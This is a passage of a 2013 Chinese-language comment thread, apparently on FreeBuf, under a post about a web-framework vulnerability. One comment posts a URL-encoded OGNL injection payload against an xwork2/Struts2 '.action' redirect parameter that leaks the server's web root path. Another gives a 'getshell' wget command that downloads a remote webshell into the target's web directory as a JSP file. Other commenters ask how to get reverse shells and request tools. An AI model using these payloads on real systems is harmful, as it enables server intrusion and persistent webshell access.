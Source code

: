 [http://www.xxx.com/xxxx.action?redirect%3A%24%7B%23req%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletRequest%27%29%2C%23a%3D%23req.getSession%28%29%2C%23b%3D%23a.getServletContext%28%29%2C%23c%3D%23b.getRealPath%28%22%2F%22%29%2C%23matt%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23matt.getWriter%28%29.println%28%23c%29%2C%23matt.getWriter%28%29.flush%28%29%2C%23matt.getWriter%28%29.close%28%29%7D](http://www.xxx.com/xxxx.action?redirect%3A%24{%23req%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletRequest%27%29%2C%23a%3D%23req.getSession%28%29%2C%23b%3D%23a.getServletContext%28%29%2C%23c%3D%23b.getRealPath%28"%2F"%29%2C%23matt%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23matt.getWriter%28%29.println%28%23c%29%2C%23matt.getWriter%28%29.flush%28%29%2C%23matt.getWriter%28%29.close%28%29})
[亮了]()(1)
[回复](http://www.freebuf.com/vuls/?replytocom=13018#respond)
* [![]()](http://www.freebuf.com/?author=2313) [angellover08 ](http://www.freebuf.com/author/angellover08) (1级) 某甲方漏洞挖掘研究员 []() 2013-07-17    19楼

freebuf大牛众多，小弟在此膜拜。
[亮了]()(0)
[回复](http://www.freebuf.com/vuls/?replytocom=13019#respond)
* [![]()](http://www.freebuf.com/?author=3210) [xiao_hen ](http://www.freebuf.com/author/xiao_hen) (1级)  矮穷挫小分队。 []() 2013-07-17    20楼

freebuf大牛众多，小弟在此膜拜。
[亮了]()(0)
[回复](http://www.freebuf.com/vuls/?replytocom=13020#respond)
* [![]()](http://www.freebuf.com/?author=3692) [dennych0u ](http://www.freebuf.com/author/dennych0u) (1级)  []() 2013-07-17    21楼

悲催的攻城狮们要精尽人亡了~
[亮了]()(0)
[回复](http://www.freebuf.com/vuls/?replytocom=13021#respond)
* ![]() z0mbie []() 2013-07-17    22楼

请教各路神仙，怎么反弹SHELL,怎么写shell
[亮了]()(0)
[回复](http://www.freebuf.com/vuls/?replytocom=13025#respond)
* ![]() helen是sb []() 2013-07-17    23楼

getshell
wget [http://www.sss.com/data/avatar/test.txt](http://www.sss.com/data/avatar/test.txt) -O /home/www/test.jsp
test.txt是远程webshell的 /home/www/test.jsp 是目标目录
[亮了]()(0)
[回复](http://www.freebuf.com/vuls/?replytocom=13027#respond)
* [![]()](http://www.freebuf.com/?author=3486) [hackmissmiss ](http://www.freebuf.com/author/hackmissmiss) (1级)  []() 2013-07-17    24楼

怎么构造WGET POC
[亮了]()(0)
[回复](http://www.freebuf.com/vuls/?replytocom=13030#respond)
* [![]()](http://www.freebuf.com/?author=1748) [free ](http://www.freebuf.com/author/free) (1级) 女人心看不透，因为胸前肉太厚。 []() 2013-07-17    25楼

求工具啊
[亮了]()(0)
[回复](http://www.freebuf.com/vuls/?replytocom=13031#respond)
* ![]() h4ck0r []() 2013-07-17    26楼
